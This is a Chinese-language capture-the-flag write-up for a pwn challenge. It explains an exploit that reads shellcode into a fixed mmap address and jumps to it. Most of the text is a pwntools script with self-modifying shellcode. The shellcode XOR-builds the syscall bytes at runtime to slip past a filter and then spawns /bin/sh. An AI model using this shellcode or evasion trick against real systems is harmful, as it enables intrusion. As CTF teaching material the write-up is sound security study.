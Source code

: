 <div align=center><img src="../images/2024/09/13/train5.png" alt="pwn" border="0" width="70%" height="80%"></div>

**因为mmap开了一个固定地址，所以我们只要把shellcode读入到固定地址中，利用ret跳转进固定地址即可**

这里解释一下exp：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

#io=remote("challenge.basectf.fun",47700)
io=process('./qwq')
elf=ELF('./qwq')
#gdb.attach(io,'b *(0x4012F5)')
shellcode_addr=0x11451400 #shellcode的固定地址，用于ret跳转
# shellcode len: 44 bytes -> 0x2C  0x11451400+0x2C = 0x1145142C -> target addr
shellcode=asm("""
    mov rax, 0x1145142C #后面的地址是固定地址+shellcode长度所得，结果就是shellcode末尾地址
    mov rbx, 0x5a5 
    xor rbx, 0xaa # 0x5a5与0xaa异或之后就是0x50f，即\x0f\x05
    mov [rax], rbx #将shellcode末尾地址指向的内容改为syscall的机器码
    
    mov rbx, 0x0068732f6e69622f #之后就是正常的shellcode编写
    push rbx
    push rsp
    pop rdi
    xor esi,esi
    xor edx,edx
    push 59
    pop rax #我们的syscall机器码，最终是写到这一指令的下面一个位置，也就是0x1145142C
    """)

payload=shellcode.ljust(0x18,b'a') #补齐shellcode长度
io.sendline(payload) #因为汇编指令到后面有个call rdx，而此时rdx就是shellcode，直接getshell

```